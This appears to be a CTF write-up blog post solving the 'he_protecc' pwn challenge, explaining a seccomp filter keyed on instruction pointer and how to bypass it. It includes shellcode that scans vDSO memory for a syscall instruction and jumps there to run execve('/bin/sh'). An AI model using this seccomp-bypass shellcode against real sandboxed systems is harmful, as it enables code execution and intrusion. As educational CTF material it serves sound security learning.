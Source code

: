 ```yaml
---
layout: ../../../layouts/BlogLayout.astro
title: "he_protecc: CornCTF 2025"
date: 2024-20-06
author: "ub1k"
tags: ["pwn"] 
image: "./images/cover.png"
---
```



# he_protecc: CornCTF 2025

> **Solved by: Ub1k**, **Writeup by: Ub1k**

# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediately notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](images/he_protecc-013.png)
## mmap my beloved

<Callout type="info">
**mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.
</Callout>

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](images/he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

<Callout type="info">
As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.
</Callout>

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](images/he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

<Callout type="info">
**vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))
</Callout>

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**, let's choose the first one.

![](images/he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are the same in the remote binary, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits of this leak to align the address to the start of a memory page, but in our case, it's unnecessary, we already know there are 5 syscall instructions diseminated in the region and it is impossible that they are all contained in the first `0x340` bits of the page.
Now let's scan the memory region for a syscall instruction, remember that it's opcode is `0x0F05` but we are in little-endian so we need to reverse the order of bits:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f // <-- syscall opcode but reversed
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and reads two bytes, it then checks if the bytes are equal to the one representing syscall, if not, it continues the loop. If it exits instead, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

sending this payload will spawn a shell and with a simple `cat flag.txt` we get the flag!

